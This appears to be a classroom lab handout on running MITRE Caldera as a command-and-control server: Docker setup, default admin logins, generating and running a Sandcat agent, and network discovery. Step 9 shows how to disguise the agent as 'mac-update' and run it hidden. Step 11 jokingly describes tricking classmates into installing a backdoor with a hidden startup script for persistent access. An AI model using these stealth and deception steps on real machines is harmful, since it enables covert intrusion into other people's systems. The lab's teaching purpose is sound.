

## Welcome to a Command & Control Server ##

Last week we learned about the outsider threat.  This is when an attacker probes publically accessible endpoints in an attempt to: 1. Identfity vulnerabilities, and 2. Gain entry into a system.  This is, roughly, one way networks become compromised.

The second way networks become compromised is from the inside.  This can happen a variety of ways:

1. **Phishing Attack** - An email is sent to specific company employees. It contains information or content of interest to them.  It also includes a link, or an attachments.  The unsuspecting employee "clicks the link".  The malware then begins the process of installing itself.
2. **Supply Chain** - A comapany's IT department or a consumer installs a legitimate product.  The entire world views this product as safe.  However, someone in the supply chain (i.e. the softwares developers, a 3rd party libray included by the software, or the site that delivers the software) adds malware to the seemingly safe hardware.  Does anyone want to guess why this happens?
3. **Insider Threat** - This is similar to the Supply Chain above.  In this case, a company has an employee who literally installs malware.  Whether for financial gain or out of spite.

In this case the malware does not exist in a vaccuum.  It attempts to reach out over the internet to a command and control server.  This server is run by the folks who implanted the malware.  Once it makes a connection to the mothership, so to speak, life becomes very hard for the company or individual who has been infected by the malware.

### Caldera - An Open Source Command and Control Server ###
It would be difficult to study and examine a command and control server and malware clients used by criminal gangs or nation states.  It is certainly possible but we would open ourselves up to an amazing amount of risk.  Thankfully, we can similuate what a command and control (C2) server does.  In fact, if you wanted to be completely unethical you could repurpose the Caldera framework, which we will examine today, for this purpose.  Please do not do that!

So, what is Caldera?  It is put by a U.S. goverment organization called MITRE.  They perform advanced research that is similar (but a bit more advanced) than that performed at universities.  You can find project and source code at the respective links:

[](https://caldera.mitre.org)
[](https://github.com/mitre/caldera)

It is all right there for you.  You can see from the github page the project is active, with updates at least as recent as the last two weeks.

Our goals for today are:

1. Install the Caldera server
2. Create a Caldera client (the malware)
3. Safely infect your machine with the malware
4. Understand how the client communicates with the server.  
5. A stretch goal is that we will try to infect one of your classmates machines and control it from your server.

When you get the server running, you will see an interface like this to control the malware clients.  This indeed will be fun!



### Installation of Caldera and the Malware Clients ###

**Remember, only use MITRE Caldera in a controlled environment and ethically!**  

---

## **1️⃣ Pull the Caldera Docker Container**  
We learned about containers a few weeks back.  It is the way software engineering is performed in 2025.  There is, of course, a container for Caldera.  It is found here:

[](https://hub.docker.com/r/mitre/caldera)

So, what is the Caldera server?  It is a simple web server written in Python.  However, its business logic allows malware actors to manipulate victim machines.

First, pull the **Caldera** image from Docker Hub:  

```bash
docker pull mitre/caldera
```

---

## **2️⃣ Start the Caldera Server (Expose Port 8888)**  
To **run the container** and expose port **8888** so you can access the UI: 
 
```bash
docker run -d --name caldera -p 8888:8888 mitre/caldera
```
- `-d` → Run in **detached mode** (background).  
- `--name caldera` → Names the container `caldera` for easy reference.  
- `-p 8888:8888` → Maps port **8888** on the host to **8888** in the container (so we can access it).  

To verify it's running:  
```bash
docker ps
```
We can consider at this point that there are two machines.  First is your lab workstation.  Second is the container running Caldera.

---

## **3️⃣ Bash into the Caldera Server**  
Now, let’s access the **Caldera server’s command line inside the container**:  

```bash
docker exec -it caldera /bin/bash
```
- `exec -it` → Runs an interactive Bash shell inside the container.  
- `caldera` → The name of the running container.  

You should now see a prompt **inside the container**, something like:  

```plaintext
root@abc123456789:/app#
```
Type ps to see the running processes.  Not much is there.  We nbeed to start the server!

---

## **4️⃣ Start the Caldera Server**

Once inside the container, navigate to the Caldera directory - which should just be the root.  You should see this if you do an ```ls```:  

```bash
root@ae0953a5fd96:/usr/src/app# ls     
LICENSE  SECURITY.md  app  conf  data  plugins  requirements.txt  server.py  static  templates
```

Then, **start the Caldera server manually**:  
```bash
python3 server.py --insecure
```

- **`--insecure`** → Runs without HTTPS (useful for testing).  
- You should see **Caldera starting up** with logs printing.

The terminal window will not go back to the prompt as you did not run the server in the background.

---

## **5️⃣ Access the Caldera Web UI**
Once the server is running, open your browser and go to:  

```
http://localhost:8888
```

Please use Firefox!

🔑 **Default Login Credentials:**  
- **Username:** `admin`  or `red`
- **Password:** `admin`  

---

## **6️⃣ Create a Client (Agent)**
Now comes the part where you use Caldera to create an Agent.  This agent is a piece of malware.  You will need to implant it on the victim machine!

From the Caldera UI:  

- Go to **Agents → Generate Agent**  
- Choose **Sandcat (Go)** for macOS/Linux  
- **Set the callback address**:
-   
  ```plaintext
  192.168.X.X:8888
  ```
  (Replace `192.168.X.X` with your **machine's private IP** — next step will explain how to find it.)  

- **Download the agent to your machine.**. What this means is literally open nano, name the file sandcat, and copy and paste the agent code into it.  Your professor will step you though this step.  This is the part where you **imagine** someone has clicked a link and downloaded some malware!

---

## **7️⃣ Find Your Machine’s IP Address**
Run this command to get your **local (private) IP address**: 
 
```bash
ifconfig | grep "inet " 
```
🔹 Look for an IP like `192.168.1.238`—this is your **local network IP**.  
👉 **Use this IP as the callback address when creating the client!**  

---

## **8️⃣ Copy & Start the Client**
Once you have downloaded the client, make it **executable**:  

```bash
chmod +x sandcat
```

Then, **run it**:  
```bash
./sandcat
```

After running it, **check the Caldera UI** → You should see the agent check in under **Agents**.  That is, head back to Firefox and click on Agents.  You agent will show up - wait for it!

---

## **9️⃣ Hiding the Agent (Stealth Mode)**
Note, if you wanted to you can "hide" the agent to make this more realistic. You could simply issue these commands:
  
- Running it **in the background**:  

  ```bash
  nohup ./sandcat &> /dev/null &
  ```

- Renaming it to look **less suspicious**:  

  ```bash
  mv sandcat mac-update
  ./mac-update &
  ```

---

## **🔟 Run Nosy Neighbor (Network Discovery)**
Once the agent is connected, you can **run Nosy Neighbor** to scan the local network:  
1. Go to **Operations → Create Operation**  
2. Select the connected **Agent**  
3. Choose the **Nosy Neighbor** plugin  
4. Run it!  

This will scan for other devices on the network.

---

## **1️⃣1️⃣ Install My Custom Client (Backdoor Access)**
Now, let’s have **students install my custom client** so I can peek into their machines! 😈  
- Package a **pre-configured agent** with **a hidden startup script**.  
- Have students **run it "for testing purposes"**.  
- Maintain persistent access. 🚀  

We know from last week that we can find the IP addresses of other machines in the classroom.  If you could so kindly install my client - I'll happily look around your machine!
